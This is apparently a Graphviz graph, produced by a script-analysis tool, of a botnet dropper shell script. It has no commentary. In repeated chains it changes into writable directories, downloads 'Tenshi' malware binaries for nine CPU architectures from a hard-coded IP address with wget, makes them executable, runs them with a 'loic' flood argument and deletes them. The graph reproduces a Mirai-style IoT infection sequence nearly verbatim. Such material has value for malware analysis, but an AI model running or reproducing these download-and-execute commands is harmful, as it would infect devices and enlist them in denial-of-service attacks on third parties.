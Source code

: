 digraph {
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 10 [label="||,"];
10 [label="wget http://217.23.4.22/bins/Tenshi.mips "];
10 -> 12 [label=";,"];
12 [label="chmod +x Tenshi.mips "];
12 -> 14 [label=";,"];
14 [label="./Tenshi.mips loic "];
14 -> 16 [label=";,"];
16 [label="rm -rf Tenshi.mips "];
16 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 28 [label="||,"];
28 [label="wget http://217.23.4.22/bins/Tenshi.mpsl "];
28 -> 30 [label=";,"];
30 [label="chmod +x Tenshi.mpsl "];
30 -> 32 [label=";,"];
32 [label="./Tenshi.mpsl loic "];
32 -> 34 [label=";,"];
34 [label="rm -rf Tenshi.mpsl "];
34 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 46 [label="||,"];
46 [label="wget http://217.23.4.22/bins/Tenshi.arm "];
46 -> 48 [label=";,"];
48 [label="chmod +x Tenshi.arm "];
48 -> 50 [label=";,"];
50 [label="./Tenshi.arm loic "];
50 -> 52 [label=";,"];
52 [label="rm -rf Tenshi.arm "];
52 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 64 [label="||,"];
64 [label="wget http://217.23.4.22/bins/Tenshi.ppc "];
64 -> 66 [label=";,"];
66 [label="chmod +x Tenshi.ppc "];
66 -> 68 [label=";,"];
68 [label="./Tenshi.ppc loic "];
68 -> 70 [label=";,"];
70 [label="rm -rf Tenshi.ppc "];
70 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 82 [label="||,"];
82 [label="wget http://217.23.4.22/bins/Tenshi.x86 "];
82 -> 84 [label=";,"];
84 [label="chmod +x Tenshi.x86 "];
84 -> 86 [label=";,"];
86 [label="./Tenshi.x86 x86_64 "];
86 -> 88 [label=";,"];
88 [label="rm -rf Tenshi.x86 "];
88 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 100 [label="||,"];
100 [label="wget http://217.23.4.22/bins/Tenshi.sh4 "];
100 -> 102 [label=";,"];
102 [label="chmod +x Tenshi.sh4 "];
102 -> 104 [label=";,"];
104 [label="./Tenshi.sh4 loic "];
104 -> 106 [label=";,"];
106 [label="rm -rf Tenshi.sh4 "];
106 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 118 [label="||,"];
118 [label="wget http://217.23.4.22/bins/Tenshi.arm4 "];
118 -> 120 [label=";,"];
120 [label="chmod +x Tenshi.arm4 "];
120 -> 122 [label=";,"];
122 [label="./Tenshi.arm4 loic "];
122 -> 124 [label=";,"];
124 [label="rm -rf Tenshi.arm4 "];
124 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 136 [label="||,"];
136 [label="wget http://217.23.4.22/bins/Tenshi.arm5 "];
136 -> 138 [label=";,"];
138 [label="chmod +x Tenshi.arm5 "];
138 -> 140 [label=";,"];
140 [label="./Tenshi.arm5 loic "];
140 -> 142 [label=";,"];
142 [label="rm -rf Tenshi.arm5 "];
142 -> 144 [label=";,"];
144 [label="cd /tmp "];
144 -> 144
146 [label="cd /var/run "];
146 -> 148 [label="||,"];
148 [label="cd /mnt "];
148 -> 150 [label="||,"];
150 [label="cd /root "];
150 -> 152 [label="||,"];
152 [label="cd / "];
152 -> 154 [label="||,"];
154 [label="wget http://217.23.4.22/bins/Tenshi.arm6 "];
154 -> 156 [label=";,"];
156 [label="chmod +x Tenshi.arm6 "];
156 -> 158 [label=";,"];
158 [label="./Tenshi.arm6 loic "];
158 -> 159 [label=";,"];
}
